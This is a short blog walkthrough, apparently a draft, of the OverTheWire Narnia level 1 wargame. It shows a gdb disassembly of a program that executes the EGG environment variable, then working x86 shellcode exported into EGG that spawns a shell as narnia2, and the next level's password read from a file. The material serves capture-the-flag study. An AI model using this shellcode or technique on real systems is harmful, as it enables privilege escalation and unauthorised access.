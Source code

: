 +++
title = "Over the wire - narnia01"
description = "Walk-through"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-01"
project_url = "https://greyhat.dk/over-the-wire-narnia-01"
type = "post"
+++



(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   ebp
   0x0804847e <+1>:	mov    ebp,esp
   0x08048480 <+3>:	and    esp,0xfffffff0
   0x08048483 <+6>:	sub    esp,0x20
   0x08048486 <+9>:	mov    DWORD PTR [esp],0x8048570
   0x0804848d <+16>:	call   0x8048330 <getenv@plt>
   0x08048492 <+21>:	test   eax,eax
   0x08048494 <+23>:	jne    0x80484ae <main+49>
   0x08048496 <+25>:	mov    DWORD PTR [esp],0x8048574
   0x0804849d <+32>:	call   0x8048340 <puts@plt>
   0x080484a2 <+37>:	mov    DWORD PTR [esp],0x1
   0x080484a9 <+44>:	call   0x8048360 <exit@plt>
   0x080484ae <+49>:	mov    DWORD PTR [esp],0x80485a9
   0x080484b5 <+56>:	call   0x8048340 <puts@plt>
   0x080484ba <+61>:	mov    DWORD PTR [esp],0x8048570
   0x080484c1 <+68>:	call   0x8048330 <getenv@plt>
   0x080484c6 <+73>:	mov    DWORD PTR [esp+0x1c],eax
   0x080484ca <+77>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484ce <+81>:	call   eax
   0x080484d0 <+83>:	mov    eax,0x0
   0x080484d5 <+88>:	leave
   0x080484d6 <+89>:	ret
End of assembler dump.


narnia1@melinda:/narnia$ export EGG=$(python -c 'print "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"')
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
